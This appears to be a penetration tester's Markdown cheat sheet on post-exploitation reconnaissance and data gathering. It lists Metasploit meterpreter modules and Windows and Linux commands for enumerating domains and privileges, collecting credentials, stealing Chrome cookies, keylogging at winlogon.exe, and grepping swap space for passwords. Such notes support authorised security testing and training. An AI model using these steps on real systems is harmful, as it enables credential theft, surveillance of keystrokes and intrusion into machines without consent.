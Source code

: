 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup <group-name>`
* `net share`
</br>__Services__</br>
* `tasklist /svc`
</br>__Privileges__</br>
* `whoami /priv`
* `whoami /groups`
* `whoami /all`
</br>__Powershell__</br>
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

## Linux
* `cat /etc/passwd`
* Pilfering credentials from sqp memory
   * `swapon -s` or `cat /proc/swaps` -get swap partition
   * `strings </dev/sda5> | grep "password"` - search "password" text in the swap partition
* `./swap_digger.sh` - https://github.com/sevagas/swap_digger
 

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`

* `meterpreter> run post/multi/gather/*` - double tab to see all modules
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
**Windows**
* `meterpreter> run winenum`
* `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
* `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
* `meterpreter> run post/windows/gather/credentials/credential_collector`
**Linux**
* msf> `use post/linux/gather/enum_configs`
* msf> `use post/linux/gather/enum_system`
* msf> `use post/linux/*` - double tab to see options

**General Tactics**
* dump browser cache
* dump browser bookmarks
* setup sniffers on victim

## Other tools
* SessionGopher - dump local credentials (Windows)

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

